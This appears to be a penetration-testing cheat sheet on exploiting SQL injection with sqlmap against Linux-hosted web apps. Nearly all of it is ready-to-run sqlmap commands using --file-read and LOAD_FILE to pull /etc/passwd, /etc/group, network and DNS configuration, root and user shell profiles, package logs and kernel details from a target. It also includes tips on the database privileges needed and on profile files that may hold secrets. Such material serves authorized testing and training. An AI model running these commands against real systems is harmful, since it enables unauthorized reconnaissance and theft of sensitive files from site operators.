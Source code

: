 # Linux

Search Tag(s): #webapp-pentesting #server-side-attack #sql-injection #blind-sql-injection #enumeration-and-discovery #scenarios #sqlmap

## Automated

> [!IMPORTANT]
> The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
> > [!NOTE]
> > Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

Enumerating user accounts

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "<URL>" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

Enumerate user groups

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/group"
```

Local IPv4 address

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/networks"
```

DNS resolve and nameserver IPs

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/hosts"
```

Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bashrc"
```

Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/yum.log"
```

Enumerate Linux kernel

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/os-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/proc/version"
```